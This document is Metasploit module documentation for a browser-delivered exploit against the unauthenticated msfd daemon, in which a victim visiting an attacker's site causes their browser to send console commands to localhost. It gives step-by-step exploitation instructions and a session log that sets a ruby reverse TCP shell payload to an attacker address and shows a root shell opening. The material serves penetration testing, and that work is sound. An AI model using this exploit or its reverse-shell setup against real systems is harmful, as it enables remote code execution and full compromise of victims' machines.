 ## Description

This module connects to the Metasploit msf daemon and uses the ruby interpreter
to achieve a shell. This module can be used when the vulnerable service is only
listening on localhost and the attacker has not achieved a foothold on the
machine. To achieve code execution, the data is sent from the victim's browser.
To achieve this, the victim must visit the attacker's web site.

## Vulnerable Application

[Metasploit](https://github.com/rapid7/metasploit-framework) has a legacy method
of providing remote access. The msf daemon provides no means of authentication
and is therefore vulnerable against an attacker who has IP access to the daemon.
In those cases where the daemon is listening on localhost, we take advantage of
the fact that the victim's web browser has IP access to the daemon.

Because the msfconsole-program is line-based, it is possible to successfully
send commands through the HTTP-protocol. This module takes advantage of this by
placing the msfconsole-command in the POST-data of a HTTP-request. Since these
POST-requests are considered safe to send cross-domain, it is possible to send
them from the attacker's web application and to localhost using the victim's
browser.

All versions of Metasploit are affected by this module, however testing has only
been performed on the following targets:

* Metasploit 5.0.0 on Ubuntu 16.04 (using Firefox and Chrome)
* Metasploit 4.16.51 on Windows 7 (using IE, exploitation failed in Firefox and
  Chrome)

***NB!*** Exploitation on Windows had a higher degree of success, when the
quiet-flag was sent to the msf daemon. On Linux, it made no difference.

Source code and installers:

  * [Source Code Repository](https://github.com/rapid7/metasploit-framework)
  * [Installers](https://docs.metasploit.com/docs/development/maintainers/downloads-by-version.html)

## Verification Steps

1. Start the vulnerable service `msfd -q -f`
2. Start `msfconsole`
3. Do: `use exploit/multi/browser/msfd_rce_browser`
4. Do: `set REMOTE_IP [IP]` (default: `127.0.0.1`)
5. Do: `set RPORT [PORT]` (default: `55554`)
6. Do: `set PAYLOAD [PAYLOAD]`
7. Do: `exploit`
8. Do: Visit the listed URL from the victim's machine
9. You should get a shell


## Options

Options unique for this module is described below.

  **REMOTE_IP**

  IP to target when running inside the victim's browser.

  **REMOTE_PORT**

  Remote port the vulnerable service is running at, default is 55554.


## Scenarios

### Through the victim's browser

 ```
  msf5 > use exploit/multi/browser/msfd_rce_browser
  msf5 exploit(multi/browser/msfd_rce_browser) > set payload ruby/shell_reverse_tcp
  payload => ruby/shell_reverse_tcp
  msf5 exploit(multi/browser/msfd_rce_browser) > set lhost 192.168.0.17
  lhost => 192.168.0.17
  msf5 exploit(multi/browser/msfd_rce_browser) > set lport 443
  lport => 443
  msf5 exploit(multi/browser/msfd_rce_browser) > exploit
  [*] Exploit running as background job 0.

  [-] Handler failed to bind to 192.168.0.17:443:-  -
  [*] Started reverse TCP handler on 0.0.0.0:443
  msf5 exploit(multi/browser/msfd_rce_browser) > [*] Using URL:
  http://0.0.0.0:8080/J5ras6oYftFWW4
  [*] Local IP: http://172.17.0.2:8080/J5ras6oYftFWW4
  [*] Server started.
  ```

Visit the web site listed in a browser on the victim's machine and you should
get the output below.

 ```
  [*] 192.168.0.17     msfd_rce_browser - 192.168.0.17     msfd_rce_browser
  Sending HTML...
  [*] Command shell session 4 opened (172.17.0.2:443 -> 192.168.0.17:48376) at 2018-04-22 19:15:07 +0000
  id
  [*] exec: id

  uid=0(root) gid=0(root) groups=0(root)
 ```
